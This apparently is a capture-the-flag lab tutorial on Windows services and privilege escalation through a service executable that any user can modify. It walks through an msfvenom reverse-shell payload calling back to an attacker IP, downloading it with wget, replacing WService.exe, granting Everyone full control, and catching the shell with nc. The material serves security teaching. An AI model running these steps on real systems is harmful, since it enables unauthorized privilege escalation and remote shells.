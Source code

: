 
## Windows Services

Windows services are managed by the **Service Control Manager** (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable **which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully**. Each service also specifies the user account under which the service will run.

```shell-session
C:\> sc qc apphostsvc
```


Here we can see that the associated executable is specified through the **BINARY_PATH_NAME** parameter, and the account used to run the service is shown on the **SERVICE_START_NAME** parameter.


All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`:


A subkey exists for every service in the system. Again, we can see the associated executable on the **ImagePath** value and the account used to start the service on the **ObjectName** value. If a DACL has been configured for the service, it will be stored in a subkey called **Security**. As you have guessed by now, only administrators can modify such registry entries by default.

## Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler. To start, we will query the service configuration using `sc`:

```shell-session
C:\> sc qc WindowsScheduler
```

We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:

```shell-session
icacls C:\PROGRA~2\SYSTEM~1\WService.exe
```

And here we have something interesting. **The Everyone group has modify permissions (M) on the service's executable**. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

Let's generate an exe-service payload using msfvenom and serve it through a python webserver:

```shell-session
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.9.67 LPORT=4445 -f exe-service -o rev-svc.exe
```

```shell-session
python3 -m http.server
```

We can then pull the payload from Powershell with the following command:

```shell-session
wget http://10.9.9.67:8000/rev-svc3.exe -O rev-svc3.exe
```

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:

```shell-session
cd C:\PROGRA~2\SYSTEM~1\
```

```shell-session
move WService.exe WService.exe.bkp
```

```shell-session
 move C:\Users\thm-unpriv\rev-svc.exe WService.exe
```

```shell-session
C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
```

We start a reverse listener on our attacker machine:

```shell-session
nc -lvp 4445
```

And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:

```shell-session
C:\> sc stop windowsscheduler
```

```shell-session
C:\> sc start windowsscheduler
```

**Note:** PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.

As a result, you'll get a reverse shell with svcusr1 privileges

```shell-session
nc -lvp 4445
```

Go to svcusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.